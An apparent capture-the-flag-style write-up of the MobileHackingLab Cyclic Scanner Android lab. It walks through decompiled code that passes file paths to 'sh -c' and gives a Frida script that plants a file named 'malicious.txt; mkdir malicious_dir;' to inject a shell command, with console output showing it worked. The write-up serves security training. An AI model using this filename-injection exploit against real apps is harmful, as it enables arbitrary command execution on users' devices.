    

    ```java
    public final class ScanEngine {

        /* renamed from: Companion, reason: from kotlin metadata */
        public static final Companion INSTANCE = new Companion(null);
        private static final HashMap<String, String> KNOWN_MALWARE_SAMPLES = MapsKt.hashMapOf(TuplesKt.to("eicar.com", "3395856ce81f2b7382dee72602f798b642f14140"), TuplesKt.to("eicar.com.txt", "3395856ce81f2b7382dee72602f798b642f14140"), TuplesKt.to("eicar_com.zip", "d27265074c9eac2e2122ed69294dbc4d7cce9141"), TuplesKt.to("eicarcom2.zip", "bec1b52d350d721c7e22a6d4bb0a92909893a3ae"));

        public static final class Companion {
            public /* synthetic */ Companion(DefaultConstructorMarker defaultConstructorMarker) {
                this();
            }

            private Companion() {
            }

            public final boolean scanFile(File file) throws IOException {
                Intrinsics.checkNotNullParameter(file, "file");
                try {
                    String command = "toybox sha1sum " + file.getAbsolutePath();
                    Process process = new ProcessBuilder(new String[0]).command("sh", "-c", command).directory(Environment.getExternalStorageDirectory()).redirectErrorStream(true).start();
                    InputStream inputStream = process.getInputStream();
                    Intrinsics.checkNotNullExpressionValue(inputStream, "getInputStream(...)");
                    Reader inputStreamReader = new InputStreamReader(inputStream, Charsets.UTF_8);
                    BufferedReader bufferedReader = inputStreamReader instanceof BufferedReader ? (BufferedReader) inputStreamReader : new BufferedReader(inputStreamReader, 8192);
                    try {
                        BufferedReader reader = bufferedReader;
                        String output = reader.readLine();
                        Intrinsics.checkNotNull(output);
                        Object fileHash = StringsKt.substringBefore$default(output, "  ", (String) null, 2, (Object) null);
                        Unit unit = Unit.INSTANCE;
                        CloseableKt.closeFinally(bufferedReader, null);
                        return !ScanEngine.KNOWN_MALWARE_SAMPLES.containsValue(fileHash);
                    } finally {
                    }
                } catch (Exception e) {
                    e.printStackTrace();
                    return false;
                }
            }
        }
    }
    ```

    The `ScanEngine` class is responsible for scanning files to determine if they are safe or infected. It contains a static inner class called `Companion`, which provides the `scanFile` method for scanning individual files. The `scanFile` method performs the following actions:
    - It takes a `File` object as a parameter and checks that it is not null.
    - It constructs a command to calculate the SHA-1 hash of the file using the `toybox sha1sum` command.
    - It starts a new process using `ProcessBuilder` to execute the command in a shell.
    - It retrieves the output of the command from the process's input stream.
    - It reads the output line by line using a `BufferedReader`.
    - It extracts the file hash from the output by taking the substring before the first occurrence of "  ".
    - It checks if the calculated file hash is present in the `KNOWN_MALWARE_SAMPLES` hashmap, which contains known malware sample hashes.
    - It returns `true` if the file is safe (not found in the known malware samples) and `false` if it is infected (found in the known malware samples).
    - If any exception occurs during the process, it prints the stack trace and returns `false`, indicating that the file could not be scanned safely.

    Take a look again at this part:

    ```java
    String command = "toybox sha1sum " + file.getAbsolutePath();
    Process process = new ProcessBuilder(new String[0]).command("sh", "-c", command).directory(Environment.getExternalStorageDirectory()).redirectErrorStream(true).start();
    ```

    Here, we can see that the application is using `toybox sha1sum` command to calculate the SHA-1 hash of the file. This is a potential command injection vulnerability if we can control the `file.getAbsolutePath()` value.

    A shell is started by `ProcessBuilder` with `sh -c` which means that if we can provide a file path that includes shell metacharacters, we can inject arbitrary commands to be executed by the shell.

    If a malicious user can create a file with a specially crafted name that includes shell metacharacters, they could potentially execute arbitrary commands on the device.

    Next, take a look at this part:

    ```java
    InputStream inputStream = process.getInputStream();
    Intrinsics.checkNotNullExpressionValue(inputStream, "getInputStream(...)");
    Reader inputStreamReader = new InputStreamReader(inputStream, Charsets.UTF_8);
    BufferedReader bufferedReader = inputStreamReader instanceof BufferedReader ? (BufferedReader) inputStreamReader : new BufferedReader(inputStreamReader, 8192);
    ```

    The shell command's output is read from the process's input stream. This means that if we can inject a command that produces output, we can read that output from the input stream.

    Next, take a look at this part:

    ```java
    BufferedReader reader = bufferedReader;
    String output = reader.readLine();
    Intrinsics.checkNotNull(output);
    Object fileHash = StringsKt.substringBefore$default(output, "  ", (String) null, 2, (Object) null);
    Unit unit = Unit.INSTANCE;
    CloseableKt.closeFinally(bufferedReader, null);
    return !ScanEngine.KNOWN_MALWARE_SAMPLES.containsValue(fileHash);
    ```

    The `SHA1` hash value is extracted from the command output by taking the substring before the first occurrence of `"  "`. If the hash value matches any of the known malware sample hashes, the file is considered infected. If not, the file is considered safe.

## Exploitation

The exploit will follow this pattern: `filename; <os command>`.

We will use `frida` to create a file with a malicious name that includes shell metacharacters to inject arbitrary commands. Below is the frida script to create a file with a malicious name:

```javascript
Java.perform(function () {
  function showToast(msg) {
    Java.scheduleOnMainThread(function () {
      var Toast = Java.use("android.widget.Toast");
      var String = Java.use("java.lang.String");
      var ActivityThread = Java.use("android.app.ActivityThread");
      var ctx = ActivityThread.currentApplication().getApplicationContext();
      Toast.makeText(ctx, String.$new(msg), Toast.LENGTH_LONG.value).show();
    });
  }

  var Environment = Java.use("android.os.Environment");
  var File = Java.use("java.io.File");
  var ScanEngine = Java.use("com.mobilehackinglab.cyclicscanner.scanner.ScanEngine");

  var companion = ScanEngine.Companion.value;

  var downloadsDir =
    Environment.getExternalStoragePublicDirectory(Environment.DIRECTORY_DOWNLOADS.value)
      .getAbsolutePath();

  var maliciousFileName = "malicious.txt; mkdir malicious_dir;";
  var maliciousFilePath = downloadsDir + "/" + maliciousFileName;

  var maliciousFile = File.$new(maliciousFilePath);
  var created = maliciousFile.createNewFile();

  if (created) {
    console.log("File created at: " + maliciousFilePath);

    var res = companion.scanFile.overload("java.io.File").call(companion, maliciousFile);
    console.log("[*] scanFile result: " + res);

    if (res) showToast("MobileHackingLabs Cyclic Scanner Lab done");
  } else {
    console.log("Failed to create malicious file.");
  }
});
```

We can inject this script into the `Cyclic Scanner` app using frida:

```bash
frida -U -f com.mobilehackinglab.cyclicscanner -l .\create_malicious_file.js
```

Once the script is injected like this:

```pwsh
PS C:\Users\Dimas Herjunodarpito\Documents\MHL\LABS\Cyclic-Scanner> frida -U -f com.mobilehackinglab.cyclicscanner -l .\create_malicious_file.js
     ____
    / _  |   Frida 17.5.2 - A world-class dynamic instrumentation toolkit
   | (_| |
    > _  |   Commands:
   /_/ |_|       help      -> Displays the help system
   . . . .       object?   -> Display information about 'object'
   . . . .       exit/quit -> Exit
   . . . .
   . . . .   More info at https://frida.re/docs/home/
   . . . .
   . . . .   Connected to Android Emulator 5554 (id=emulator-5554)
Spawned `com.mobilehackinglab.cyclicscanner`. Resuming main thread!
[Android Emulator 5554::com.mobilehackinglab.cyclicscanner ]-> File created at: /storage/emulated/0/Download/malicious.txt; mkdir malicious_dir;
[*] scanFile result: true
```

`create_malicious_file.js` uses `frida` to:

- Run inside the app process (`Java.perform`) so it can call app classes.
- Build a file path under `Download/` that includes a shell metacharacter payload: `malicious.txt; mkdir malicious_dir;`.
- Create the file on disk via `java.io.File#createNewFile`.
- Directly invoke `ScanEngine.Companion.scanFile(File)` so the service's vulnerable `sh -c toybox sha1sum <path>` call executes.
- Display a Toast on success to make verification visible from the UI.

When `scanFile` runs, the injected `mkdir malicious_dir` is executed by the shell, demonstrating command injection via a crafted filename.

This is how the script effects the phone in video:

<video src="./videos/cyclic-scanner.mp4" controls width="720"></video>
<p><a href="./videos/cyclic-scanner.mp4">Download the video</a></p>
